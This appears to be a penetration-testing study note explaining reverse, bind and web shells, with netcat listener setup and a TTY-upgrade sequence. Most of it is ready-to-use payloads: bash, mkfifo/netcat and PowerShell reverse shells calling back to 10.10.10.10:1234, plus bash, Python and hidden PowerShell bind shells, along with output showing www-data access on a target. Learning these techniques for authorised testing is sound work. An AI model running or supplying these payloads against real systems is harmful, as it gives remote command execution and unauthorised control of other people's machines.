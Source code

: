 # Types of Shells

Three main types:
- Reverse Shell: Connects back to our system and gives us control through a reverse connection.
- Bind Shell: Waits for us to connect to it and gives us control once we do.
- Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

## Reverse Shell

#### Create a listener

create a netcat listened on a port to connect on:
```
nc -lvnp 1234

listening on [any] 1234 ...
```

The flags we are using are the following:
Flag 	Description
- `-l`: Listen mode, to wait for a connection to connect to us.
- `-v`: Verbose mode, so that we know when we receive a connection.
- `-n`: Disable DNS resolution and only connect from/to IPs, to speed up the connection.
- `-p 1234`: Port number netcat is listening on, and the reverse connection should be sent to.

Now that we have a netcat listener waiting for a connection, we can execute the reverse shell command that connects to us.

#### create the reverse shell

reverse shell cheatsheet: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

examples:
linux bash tcp: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
not sure: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`
windows powershell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

#### the connection

netcat example connection:
```
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Bind Shell

Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

bind shell cheatsheet: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/

#### connection setup on victim

examples:
bash: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
windows powershell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

#### netcat connection

```
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

---

## Upgrading TTY (shell capabilities)

`python -c 'import pty; pty.spawn("/bin/bash")'`
+
`[Ctrl+Z]`
+
`stty raw -echo`
+
`fg`
+
`[Enter]` + `[Enter]`